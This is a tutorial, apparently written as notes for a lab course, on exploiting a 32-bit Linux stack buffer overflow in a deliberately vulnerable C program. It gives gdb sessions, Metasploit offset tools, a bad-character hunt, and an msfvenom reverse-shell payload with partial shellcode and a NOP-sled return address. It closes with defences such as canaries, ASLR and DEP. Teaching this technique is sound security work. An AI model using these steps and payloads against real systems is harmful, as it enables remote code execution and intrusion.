

# Buffer overflow on Linux

What is a buffer overflow?

A buffer overflow occurs when an application does not handle correctly the input data. If the data is specially crafted, it can reach to some special parts of the memory that call registers. These registers are used to process the flow of the program, therefore any user can manipulate the originally coded logic of the application just be providing a special input. In other terms, buffer overflows are errors that occur when data that is too large to fit into a buffer of the operating system's memory overflows this buffer.

For example, in C language the following functions do not protect the memory: `strcpy`,`gets`,`sprintf`,`scanf`,`strcat`. Whenever you see a use of these functions, it mightt be a good indicator of a possible buffer overflow vulnerability.

If the `return address`register is manipulated, it allows the user to execute commands with the privilege of the application in the system.

The most usual cause for this vulnerability is the use of languages that rely on the developer for memory management, e.g. `C` and `C++`. The executable files are the compiled output of the application source code, the format differs from OS. In Linux, the format is `Executable and Linking Format (ELF)`, in Windows it is called `Portable Executable Format (PE)`.

Programs store data and instructions in memory during initialization and execution. These are data that are displayed in the executed software or entered by the user. The instructions are used to model the program flow. Among other things, return addresses are stored in the memory, which refers to other memory addresses and thus define the program's control flow. If such a return address is deliberately overwritten by using a buffer overflow, an attacker can manipulate the program flow by having the return address refer to another function or subroutine. Also, it would be possible to jump back to a code previously introduced by the user input.

## Memory structure

This this type of attack rely on a mismanagement of application memory, first we need to understand how the memory is structured.

TODO: ADD A DIAGRAM!

- .text: actual assembler instructions of the program. Usually this section is read-only. Any write attempt will likely result in Segmentation Fault.
- .data: contains global and static data defined by the program.
- .bss: Several compilers and linkers use the this section as part of the data segment, which contains statically allocated variables represented exclusively by 0 bits.
- Heap: memory area allocated to each program. Memory allocated to heap can be dynamically allocated, unlike memory allocated to stacks.
- Stack: Least-In-First-Out memory. The return address, parameters and sometimes frame pointers are stored in the stack memory. This is where local variables are stored. The linker reserves this area and usually places the stack in RAM's lower area above the global and static variables. The contents are accessed via the `stack pointer`, set to the upper end of the stack during initialization. During execution, the allocated part of the stack grows down to the lower memory addresses.

Here is an example of a vulnerable program:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bowfunc(char *string) {

 char buffer[1024];
 strcpy(buffer, string);
 return 1;
}

int main(int argc, char *argv[]) {

 bowfunc(argv[1]);
 printf("Done.\n");
 return 1;
}
```

The user input is passed as an argument to the `bowfunc`. If the user introduces more than 1024 characters, the application will crash. If specially crafted input is passed, an attacker will reach to the `return address` and do whatever they want.

## GDB Introduction

GDB, or the GNU Debugger, is the standard debugger of Linux systems developed by the GNU Project. We can set breakpoints, observe the memory contents of the application. We can also use it to disassemble the binary into machine code.

In the first column, we get some numbers that represent the memory address. The numbers with the plus sign (+) show the address jumps in memory in bytes, used for the respective instruction. Next, we can see the assembler instructions with registers and their operation suffixes.

There are two types of syntax:

- AT&T syntax
- Intel syntax: The Intel syntax makes the disassembled representation easier to read

To change to intel syntax, run `set disassembly-flavor intel` in `gdb`.

To make the change permanent, you need to write to the gdbinit file:

```bash
echo 'set disassembly-flavor intel' > ~/.gdbinit
```

## CPU Registers

Registers are the essential components of a CPU. Almost all registers offer a small amount of storage space where data can be temporarily stored. However, some of them have a particular function. We'll list here only the relevant registers for buffer overflow.

| Register | Description                                                                                             |
| -------- | ------------------------------------------------------------------------------------------------------- |
| EIP      | Instruction Pointer stores the offset address of the next instruction to be executed                    |
| ESP      | Stack Pointer points to the top of the stack                                                            |
| EBP      | Base Pointer is also known as Stack Base Pointer or Frame Pointer thats points to the base of the stack |

Since the stack starts with a high address and grows down to low memory addresses as values are added, the Base Pointer points to the beginning (base) of the stack in contrast to the Stack Pointer, which points to the top of the stack.

Each function execution creates a Stack Frame inside the Stack. A stack frame defines a frame of data with the beginning (EBP) and the end (ESP) that is pushed onto the stack when a function is called.

When a function is executed with the `call` instruction, it performs two operations:

1) it pushes the return address onto the stack so that the execution of the program can be continued after the function has successfully fulfilled its goal
2) it changes the instruction pointer (EIP) to the call destination and starting execution there.

## Endianness

There are two ways of reading bytes. Big-endian and little-endian. In big-endian, the digits with the highest valence are first. In little-endian, the digits with the lowest valence are at the beginning.

Now let's look at an example: we need to store the following hex word `\xAA\xBB\xCC\xDD` into the memory starting by position `0xffff0000`:

| Memory Address | 0xffff0000 | 0xffff0001 | 0xffff0002 | 0xffff0003 |
| -------------- | ---------- | ---------- | ---------- | ---------- |
| Big-Endian     | AA         | BB         | CC         | DD         |
| Little-Endian  | DD         | CC         | BB         | AA         |

## Taking control of EIP

In order to successfully manipulate the execution flow, we need to be able to manipulate the instruction pointer (EIP) to tell it to which address it should jump. This will cause the EIP to jump to where our payload begins and it will start the execution.

We can provide a very large input to the program using python in gdb:

```shell
student@nix-bow:~$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

We are inserting `\x55` value 1200 times in the program std input. If we observe the registers, we can confirm that the stack can be abused and the input we introduced has leaked into the stack:

```shell
(gdb) info registers 

eax            0x1 1
ecx            0xffffd6c0 -10560
edx            0xffffd06f -12177
ebx            0x55555555 1431655765
esp            0xffffcfd0 0xffffcfd0
ebp            0x55555555 0x55555555  # <---- EBP overwritten
esi            0xf7fb5000 -134524928
edi            0x0 0
eip            0x55555555 0x55555555  # <---- EIP overwritten
eflags         0x10286 [ PF SF IF RF ]
cs             0x23 35
ss             0x2b 43
ds             0x2b 43
es             0x2b 43
fs             0x0 0
gs             0x63 99
```

Visually, the memory will look like this:


With such large input, the base of the stack is surpassed and we have overwritten the EIP with `\x55`. However, to write exactly into the EIP, we need to know exactly how many `\x55` characters we need to write to be at the EIP. Once we are at the EIP, the next 4 bytes will contain our desired memory address.

## Determine the offset

To determine the offset, we can use Metasplit framework. It will create a unique pattern of the specified length. When passed as input to the program, we'll see which part of the pattern leaks into the EIP.

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9

(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()

(gdb) info registers eip

eip            0x69423569 0x69423569

# We pass the found EIP address to a MSF utility and it will give us the exact offset to arrive to the EIP.
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```

So, now we can write exactly at EIP with the following input:

```shell
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

Now EIP will contain `0x66666666`

## Determine the length of the shellcode

The shellcode is the piece of software we'll make the program execute by abusing of the stack. We'll provide this executable piece of code as part of the input, and we'll write its memory address into the EIP. In this case, we'll write a reverse shell as a shellcode. In order to do so, we'll use `msfvenom` tool:

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

We'll need 68 bytes to accomodate our shellcode in memory. However, we'll increase the requirement to accomodate more complex shellcode if needed.

In order to have some space to ensure the execution, we can add some No operation instruction (NO-OP) before the shell code begins.

Summarizing, our input data will look like this:

```text
Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
NOPs = "\x90" * 100
Shellcode = "\x44" * 150
EIP = "\x66" * 4
```

And visually:



## Bad characters

Applications might contain some reserved bytes known as `bad characters`. If these bytes are passed as input, the program will just write 0x00 into the memory. When creating the shellcode, it is important to determine such bad characters to avoid having them in the shell code.

Here we use the following character list to find out all characters we have to consider and to avoid when generating our shellcode:

```shell
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

The idea is that we'll pass the whole list of chars in the input, so the input now will look like this:

```shell
Buffer = "\x55" * (1040 - 256 - 4) = 780
CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
EIP = "\x66" * 4
```

Now, we just need to place a breakpoint just after the input is read from memory to analyse the memory contents. This is done in gdb with `break <function-name>`:

```shell
(gdb) break bowfunc 

Breakpoint 1 at 0x56555551
```

and then, we send the input and examine the memory

```shell
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
/bin/bash: warning: command substitution: ignored null byte in input

Breakpoint 1, 0x56555551 in bowfunc ()

# Examine the memory: 2000 units, in hexadecimal (x) and each unit is 1 byte(b). Start at ESP (top of the stack)+ 500 bytes
x/2000xb $esp+500

<SNIP>
0xffffd5aa: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5b2: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5ba: 0x55 0x55 0x55 0x55 0x55 0x01 0x02 0x03
             # |---> CHARS begin

0xffffd5c2: 0x04 0x05 0x06 0x07 0x08 0x00 0x0b 0x0c
0xffffd5ca: 0x0d 0x0e 0x0f 0x10 0x11 0x12 0x13 0x14
0xffffd5d2: 0x15 0x16 0x17 0x18 0x19 0x1a 0x1b 0x1c
<SNIP>
```

We see that the first byte in CHARS, `0x00` is not present, hence we cannot use `0x00` in the shellcode as it is a bad character. In similar way, we see that `0x09` is not present and is substituted by `0x00`. Therefore, we can determine that `0x09` is also a bad character and should not be used in the shellcode.

This process must be repeated until all characters that could interrupt the flow are removed.

## Generating the shellcode

Now we can tell `msfvenom` we don't want to use those bad characters in the shellcode:

```shell
adriangalera@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode

adriangalera@htb[/htb]$ cat shellcode

unsigned char buf[] = 
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>
```

Finally our input will look like this:

```text
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
EIP = "\x66" * 4'
```

## Identification of the Return Address

now need a memory address where our NOPs are located to tell the EIP to jump to it. This memory address must not contain any of the bad characters we found previously. Since NOPs will not do anything, it's completely fine to start the execution there. Examining the memory:

```shell
(gdb) x/2000xb $esp+1400

<SNIP>
0xffffd5ec: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5f4: 0x55 0x55 0x55 0x55 0x55 0x55 0x90 0x90
        # End of "\x55"s   ---->|  |---> NOPS
0xffffd5fc: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd604: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd60c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd614: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd61c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd624: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd62c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd634: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd63c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd644: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd64c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd654: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd65c: 0x90 0x90 0xda 0xca 0xba 0xe4 0x11 0xd4
       # |---> Shellcode
<SNIP>
```

Here, we can select for example the position `0xffffd64c`. Now the payload will be:

```shell
Buffer = "\x55" * (1040 - 100 - 95 - 4) = 841
NOPs = "\x90" * 100
Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
EIP = "\x4c\xd6\xff\xff"
```

Note that the input of the address is entered backwards.

Since the shellcode is a reverse shell, when the payload is executed, we'll get a connection in the other side.

## Prevention techniques and mechanisms

The best protection against buffer overflows is security-conscious programming. However, there are some mechanisms that will help with buffer overflow vulnerabilities.

- Canaries: canaries are known values written to the stack between buffer and control data to detect overflows. If a buffer overflow happens, the known values of the canaries will be altered and the operating system will detect that canary is overwitten.

- Address Space Layout Randomization (ASLR): it makes difficult to find addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us.

- Data Execution Prevention (DEP): programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.
